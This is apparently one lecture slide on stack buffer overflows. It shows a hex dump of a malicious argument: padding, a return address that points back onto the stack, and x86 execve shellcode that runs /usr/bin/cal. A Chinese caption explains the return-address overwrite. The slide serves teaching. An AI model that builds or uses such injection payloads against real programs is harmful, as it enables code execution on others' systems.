

# Mal Arg Decomposed
000  31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 "1234567890123456"
010  37 38 39 30 31 32 33 34 35 36 37 38 E0 F9 FF BF "789012345678a· +"
020  31 C0 A3 FF F9 FF BF B0 0B BB 03 FA FF BF B9 FB "1+ú · +¦+· +¦v"
030  F9 FF BF 8B 15 FF F9 FF BF CD 80 FF F9 FF BF 31 "· +ï§ · +-Ç · +1"
040  31 31 31 2F 75 73 72 2F 62 69 6E 2F 63 61 6C 0A "111/usr/bin/cal “
这个值覆盖栈上的注入代码的返回地址
39